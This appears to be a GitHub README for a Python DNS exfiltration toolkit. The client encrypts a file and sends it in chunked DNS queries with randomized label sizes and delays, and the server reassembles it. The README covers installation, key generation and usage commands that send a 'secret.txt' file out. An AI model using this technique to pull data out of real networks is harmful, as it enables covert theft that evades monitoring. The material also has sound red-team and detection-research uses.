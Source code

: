 # DNS Exfiltration Client & Server (v2.5)

This toolkit demonstrates secure, authenticated DNS-based file exfiltration using modern cryptography:

- **Perfect Forward Secrecy** via ephemeral X25519 ECDH  
- **Authenticated encryption** using AES-GCM for confidentiality + HMAC-SHA256 for integrity  
- **Base32** payload encoding for DNS-safe transfers  
- **Chunked UDP DNS A queries** for transport  
- **Stateless session reassembly** on the server keyed by client UUID  

---

## 🔧 Components

### client.py

- Generates an ephemeral X25519 keypair per transfer  
- Sends your public key in Base32 chunks (`<id>-0-0-<pubkey>`)  
- Derives a per-transfer AES (32 B) + HMAC (16 B) key via HKDF  
- Encrypts your file with AES-GCM (12 B nonce)  
- Appends an HMAC-SHA256 tag to the ciphertext  
- Base32-encodes the combined blob, splits into **randomized-size** subdomains (≤ 52 chars of data) to vary label lengths  
- Issues DNS A queries with client-configurable inter-query delays (`--delay-low`/`--delay-high`)  
- Retries missing chunks up to `MAX_RETRIES`  

### server.py

- Listens on UDP port 5300 for DNS A queries  
- Parses `<id>-<idx>-<total>-<fragment>` subdomains  
- On `idx=0,total=0`, reassembles client’s ephemeral public key and performs ECDH → HKDF  
- Buffers Base32 fragments, applies padding, decodes via `base64.b32decode`  
- Splits out the last 32 bytes as HMAC tag and verifies it, then AES-GCM decrypts  
- Writes plaintext to `output/<id>.bin` and cleans up idle sessions  

---

## 📥 Installation

```bash
git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
cd python-dns-exfiltration-client-server
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## 🔒 Configuration

Create a `.env` in the project root for the server:

```ini
SERVER_PRIVATE_KEY=./server.key
```

- `server.key` must be a raw 32 B X25519 private key (no PEM header).  
- Generate one in Bash:

  ```bash
  python3 - << 'EOF'
  from cryptography.hazmat.primitives.asymmetric import x25519
  from cryptography.hazmat.primitives import serialization
  key = x25519.X25519PrivateKey.generate()
  raw = key.private_bytes(
    encoding=serialization.Encoding.Raw,
    format=serialization.PrivateFormat.Raw,
    encryption_algorithm=serialization.NoEncryption()
  )
  open('server.key','wb').write(raw)
  EOF
  ```

---

## 🚀 Usage

### Start Server

```bash
python server.py \
  --port 5300 \
  --domain example.com \
  --output-dir output
```

_By default, it reads `SERVER_PRIVATE_KEY` from `.env` (override with `--server-key`)._

### Run Client

```bash
python client.py \
  --server-ip    127.0.0.1 \
  --server-port  5300 \
  --domain       example.com \
  --server-pubkey server_public.key \
  --file-path    secret.txt \
  --delay-low    200 \
  --delay-high   500
```

- `--delay-low` / `--delay-high` specify the minimum/maximum inter-query delay in **ms** (default `200–500 ms`)  
- The client first exchanges keys (`0-0` subdomain) then sends encrypted + HMAC-tagged chunks:  
  ```
  <id>-<i>-<total>-<data>
  ```

---

## ⏱️ Client Throttling

To avoid overloading public recursive resolvers, the client inserts a randomized pause between each DNS query.  
**Recommended defaults:** `--delay-low 200`, `--delay-high 500` (i.e. 2–5 qps). Increase to `500–1000 ms` on unstable networks or reduce to `100–200 ms` in lab environments.

---

## 🔍 What HMAC Adds

- **Integrity**: ensures ciphertext wasn’t altered  
- **Authentication**: only someone with the HMAC key can produce valid tags  

---

## ⚙️ CLI Reference

**Server**:

```text
usage: server.py [-h]
                 [--port PORT]
                 [--output-dir DIR]
                 [--low LOW]
                 [--high HIGH]
                 [--domain DOMAIN]
                 [--server-key PATH]
```

**Client**:

```text
usage: client.py [-h]
                 [--server-ip IP]
                 [--server-port PORT]
                 [--domain DOMAIN]
                 [--server-pubkey PATH]
                 [--delay-low MS]
                 [--delay-high MS]
                 --file-path FILE_PATH
```

---

## 📁 Output

Decrypted files land in `--output-dir` (default `output/`). File names match the session ID.

---

## 🛡️ Security Notes

- Fresh ECDH key per transfer → **forward secrecy**  
- AES-GCM + HMAC → **confidentiality**, **integrity**, **authentication**  
- No persistent session state; idle sessions auto-cleaned  

---

## 📜 License & Author

**Author:** John Burns  
**Date:** 2025-05-07 
**License:** GPL-3.0  
```  

